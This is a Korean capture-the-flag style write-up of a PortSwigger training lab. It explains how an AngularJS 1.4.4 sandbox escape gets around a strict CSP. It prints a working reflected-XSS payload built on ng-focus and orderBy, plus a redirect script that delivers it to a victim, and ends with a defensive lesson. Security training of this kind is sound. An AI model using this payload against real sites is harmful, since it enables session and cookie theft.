


+++
date = '2026-06-07T13:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS with AngularJS sandbox escape and CSP'
summary = "엄격한 CSP가 적용된 AngularJS 1.4.4 환경에서 ng-focus와 orderBy 표현식 가젯으로 샌드박스를 탈출하는 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "AngularJS", "CSP", "Sandbox Escape", "PortSwigger", "Expert"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-with-angularjs-sandbox-escape-and-csp/'
+++

---

## 문제 분석

> **난이도**: `EXPERT`  
> **Lab**: [Reflected XSS with AngularJS sandbox escape and CSP](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)

> 

애플리케이션은 AngularJS 1.4.4와 CSP를 사용한다. 인라인 JavaScript 실행을 제한하는 CSP를 우회하고 AngularJS 샌드박스를 탈출해 `document.cookie`를 `alert()`로 출력하면 문제가 해결된다.

### 기술 스택 및 정책 확인

응답 헤더의 CSP는 다음과 같다.

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'unsafe-inline' 'self'
```

JavaScript는 같은 출처의 파일만 허용되므로 주입한 `<script>`나 HTML 이벤트 속성은 실행되지 않는다. 페이지에는 `ng-csp`가 지정된 AngularJS 1.4.4가 로드되어 있다.

### XSS 진단

검색어에 입력한 태그는 HTML 응답에 그대로 반사되지만 CSP가 인라인 코드 실행을 차단한다.

```html
<h1>0 search results for '<script>alert(1)</script>'</h1>
```

반면 `{{7*7}}`을 검색하면 화면에 `49`가 표시된다. 허용된 같은 출처의 AngularJS 라이브러리가 반사된 값을 템플릿 표현식으로 해석하고 있음을 알 수 있다.

`ng-focus` 같은 AngularJS 지시어는 브라우저가 인라인 JavaScript로 컴파일하는 이벤트 속성이 아니다. 이미 허용되어 실행 중인 AngularJS가 지시어를 해석하고 이벤트 리스너를 등록하므로 CSP의 인라인 스크립트 제한과 다른 실행 경로가 된다.

---

## 익스플로잇

다음 요소를 검색어에 삽입한다.

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
```

페이로드의 동작은 다음과 같다.

1. `ng-focus`가 포커스 이벤트에서 AngularJS 표현식을 평가한다.
2. `$event.composedPath()`는 이벤트 전파 경로를 `[input, ..., document, window]` 형태의 배열로 반환한다.
3. AngularJS의 `orderBy` 필터는 배열의 각 원소를 컨텍스트로 삼아 정렬 표현식을 평가한다.
4. 평가 대상이 `window`에 도달하면 `(z=alert)(document.cookie)`가 전역 `alert`를 직접 참조하지 않고 호출한다.

요소를 자동으로 포커스하기 위해 Exploit Server에서 주입 URL의 fragment를 `#x`로 지정한다.

```html
<script>
location = 'https://<lab-id>.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

피해자가 URL을 열면 input이 포커스를 받고 AngularJS 표현식이 실행되어 문제가 해결된다.



---

## 정리

CSP는 인라인 JavaScript를 차단하지만, 이미 허용된 프레임워크가 사용자 입력을 코드로 해석하는 문제까지 제거하지는 못한다. 이 랩에서는 AngularJS 이벤트 지시어와 필터가 CSP 우회 가젯이 되었다. CSP는 XSS의 영향을 줄이는 심층 방어이며 안전한 출력 처리의 대체 수단이 아니다.
